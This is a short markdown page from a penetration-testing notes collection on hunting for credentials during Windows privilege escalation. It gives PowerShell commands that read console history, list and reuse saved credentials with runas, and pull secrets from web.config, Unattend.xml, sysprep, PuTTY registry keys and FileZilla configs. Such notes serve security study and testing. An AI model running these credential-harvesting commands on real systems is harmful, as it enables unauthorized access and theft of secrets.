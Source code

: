 # Credentials

[Go back](../index.md#windows-privilege-escalation-)

<div class="row row-cols-md-2"><div>

You may try to look for credentials.

* 🌍 browser history
* 🛣️ [logs](/cybersecurity/blue-team/logs.md)
* 🐚 backups <small>(.old, .bak...)</small>
* ✉️ conversations/mails
* 👜 check the registry <small>(admin required)</small>
* 🔐 command history

```shell!
PS> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
CMD> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* ...

Find interesting files

* `/`: look for direct files, or dig into folders such as Users...
* `~/Desktop`: look for documents, passwords...
* `~/Documents`: look for documents, passwords...
* `%appdata%`: look for sensitive applications data
</div><div>

List saved credentials by Windows:

```shell!
PS> cmdkey /list
PS> # use 'admin' saved credentials to start cmd.exe
PS> runas /savecred /user:admin cmd.exe
```

Some known locations:

```powershell
# Internet Information Services (IIS) = the default web server
PS> type C:\inetpub\wwwroot\web.config | findstr connectionString
PS> type C:\Windows\Microsoft.NET\Framework64\vX.X.XXXXX\Config\web.config | findstr connectionString
# Windows Deployment Services (credentials of the admin that
# deployed the OS image to several hosts, referred as "Unattended")
PS> type C:\Unattend.xml
PS> type C:\Windows\Panther\Unattend.xml
PS> type C:\Windows\Panther\Unattend\Unattend.xml
PS> type C:\Windows\system32\sysprep.inf
PS> type C:\Windows\system32\sysprep\sysprep.xml
# Putty
PS> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# VNC servers
# FileZilla
PS> type C:\xampp\FileZilla Server\FileZilla Server.xml
PS> type C:\Program Files\FileZilla Server\FileZilla Server.xml
```
</div></div>